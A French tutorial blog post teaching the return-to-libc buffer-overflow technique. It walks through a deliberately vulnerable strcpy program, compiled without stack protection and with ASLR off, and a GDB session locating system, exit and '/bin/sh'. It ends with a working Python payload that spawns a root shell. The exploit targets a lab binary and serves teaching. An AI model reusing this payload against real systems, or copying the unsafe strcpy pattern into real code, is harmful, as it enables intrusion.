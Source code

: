 ```yaml
---
title: "Technique de la retour à la libc"
description: sam.png
tags: ["Dans cet article je vous présente comment exploiter une vulnérabilité pour bypass le système NX avec la technique de la retourne à la libc."]
---
```


![forthebadge made-with-python](https://media.giphy.com/media/xT9IgG50Fb7Mi0prBC/giphy.gif)

Prérequis :
- Avoir les bases en `pwn` de comprendre et comment attaquer un buffer overflow basique.
- Et d'un ordinateur, eh eh !

Aujourd'hui je souhaite vous présentez un article pour une nouvelle technique de `Buffer Overflow`. Une technique relativement amusante et très simple, êtes-vous intéressez ? Si c'est le cas, allons-y !

# C'est quoi la technique de la retourne à la libc ?

Ce que nous avons vue la dernière fois en rapport avec les `Buffer Overflow` pour exécuter un `shellcode`,  il fallait que la `pile/stack` soit exécutable. 

    root@0xEX75:~# readelf -lW ./testing |grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RWE 0x10
    
Le `R` désigne tout simplement que la pile est en lecture et la lettre `W` correspond concrètement à l'écriture sur la pile et enfin la lettre `E` correspond à la pile exécutable, et c'est grâce à ce système que nous pouvons exécuter un shellcode car c'est le processeur qui exécute notre shellcode.

![forthebadge made-with-python](https://2.bp.blogspot.com/-UPzV6M_ZsK8/W3B5kWiwYII/AAAAAAAAAeE/L1izLVAJGbwfh52XG4HjMtPDDMXC-bLqACLcBGAs/s1600/ret2libc.png)

Dans des cas assez spécifique, la pile n'est pas exécutable donc c'est presque impossible de faire exécuter un shellcode au programme pour `pop` un shell par exemple. Donc les experts ont trouver une solution qui se nomme la technique de `retourne à la libc`, qui permet d'utiliser des fonctions de la `libc`, comme par exemple la fonction `system();` pour ensuite l'utiliser contre le programme.

# Pratique exploitation !

(Pour cette partie, nous désactiverons l'`ASLR`, car la technique de retourne à la libc fonctionne uniquement si la pile n'est pas exécutable et que l'ASLR n'est pas activé.)

Voici un petit script en C qui ne fait pas grand chose :

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    void name(char*);

    void name(char *f)
    {
        char firstname[10];
        strcpy(firstname, f);
        printf("Your name : %s\n", firstname);
    }

    int main(int argc, char *argv[])
    {
        if(argc != 2)
        {
            exit(0);
        }
        name(argv[1]);
        return 0;
    }
    
Un programme basique qui ne fait pas grand chose, mais la vulnérabilité se trouve au niveau de la fonction `strcpy();`. Je suppose que vous savez que les fonctions comme `strcpy();`, `strcat();` etc.. ne sont pas du tout sécurisées donc il existe un système qui se nomme `FORTIFY_SOURCE` qui permet de remplacer les fonctions par des fonctions beaucoup plus sécurisées.

Ensuite, une petite compilation est nécessaire :

    root@0xEX75:~/libc# gcc -m32 -fno-stack-protector libc.c -o libc
    root@0xEX75:~/libc# readelf -lW libc|grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RW  0x10
    
(Le flag `E` n'est pas là, donc la pile n'est plus du tout exécutable.). Si nous essayons d'exécuter le programme après la compilation, cela fonctionne, mais dans la mémoire il se passe des choses.

    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*22')
    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*22')
    segmentation fault (core dumped)
    
Nous pouvons aperçevoir que le programme plante après 22 caractères, donc l'`OFFSET` correspond exactement à 22 caractères, si nous effectuons un dépassement, la sauvegarde `sEIP` sera complètement écrasé et le programme plantera automatiquement.

Nous allons lancer `GDB` (GNU Debugger), et nous allons chercher l'adresse de la fonction `system();`, `exit();` et finalement une chaîne comme `/bin/sh` qui nous permettra de lancer cette commande en particulier.

    root@0xEX75:~/libc# gdb ./libc
    GNU gdb (Debian 8.3.1-1) 8.3.1
    Copyright (C) 2019 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
        <http://www.gnu.org/software/gdb/documentation/>.

    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./libc...
    (No debugging symbols found in ./libc)
    gdb-peda$ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Starting program: /root/libc/libc AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Your name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x54 ('T')
    EBX: 0x41414141 ('AAAA')
    ECX: 0x7fffffac 
    EDX: 0xf7fae010 --> 0x0 
    ESI: 0xf7fac000 --> 0x1d6d6c 
    EDI: 0xf7fac000 --> 0x1d6d6c 
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd290 ('A' <repeats 45 times>)
    EIP: 0x41414141 ('AAAA')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41414141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd290 ('A' <repeats 45 times>)
    0004| 0xffffd294 ('A' <repeats 41 times>)
    0008| 0xffffd298 ('A' <repeats 37 times>)
    0012| 0xffffd29c ('A' <repeats 33 times>)
    0016| 0xffffd2a0 ('A' <repeats 29 times>)
    0020| 0xffffd2a4 ('A' <repeats 25 times>)
    0024| 0xffffd2a8 ('A' <repeats 21 times>)
    0028| 0xffffd2ac ('A' <repeats 17 times>)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41414141 in ?? ()
    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e17660 <system> # ADDRESS FUNCTION SYSTEM
    gdb-peda$ p exit
    $2 = {<text variable, no debug info>} 0xf7e0a6f0 <exit> # ADDRESS FUNCTION EXIT
    gdb-peda$ searchmem "/bin/sh"
    Searching for '/bin/sh' in: None ranges
    Found 1 results, display max 1 items:
    libc : 0xf7f54f68 ("/bin/sh") # ADDRESS /BIN/SH
    
Donc, nous avons réussis à capturer les adresses de `system();`, `exit()` et finalement de la chaîne "`/bin/sh"`.

- `system();` : `0xf7e17660`
- `exit();`   : `0xf7e0a6f0`
- `/bin/sh`   : `0xf7f54f68`

![forthebadge made-with-python](https://fundacion-sadosky.github.io/guia-escritura-exploits/esoteric/imagenes/ret-2-libc.png)

Il suffit maintenant d'utiliser les adresses que nous avons capturer contre le programme afin de `pop` un shell. Si nous avons pris la fonction `exit()`, c'est pour simplement quitter le shell de manière correct, car si nous mettons pas la fonction `exit();`, et que nous quittons le shell, il nous affichera un beau `segfault`, donc pas très beau à voir, vous n'êtes pas obliger de le mettre n'empêche, c'est totalement facultatif.

    root@0XEX75:~/libc# ./libc $(python -c 'print "A"*22 + "\x60\x76\xe1\xf7" + "\xf0\xa6\xe0\xf7" + "\x68\x4f\xf5\xf7"')
    Your name : AAAAAAAAAAAAAAAAAAAAAA`vhO
    # whoami
    root
    # id
    uid=0(root) gid=0(root) groupes=0(root)

![forthebadge made-with-python](https://media.giphy.com/media/XqXDNFZREKMBq/giphy.gif)

# CONCLUSION !

Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. J'ai essayer de vous expliquez le fonctionnement de la `technique de la retourne à la libc`, n'hésitez pas à me contacter sur les réseaux sociaux, je suis toujours disponible pour vous répondre.
